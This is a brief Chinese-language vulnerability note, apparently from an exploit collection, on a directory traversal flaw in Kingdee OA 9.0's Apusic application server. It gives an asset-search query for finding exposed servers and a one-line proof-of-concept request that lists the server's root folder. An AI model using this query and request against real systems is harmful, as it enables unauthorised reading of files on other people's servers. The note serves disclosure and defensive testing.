

# 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

<a-checkbox checked>金蝶OA 9.0 Apusic应用服务器(中间件) </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

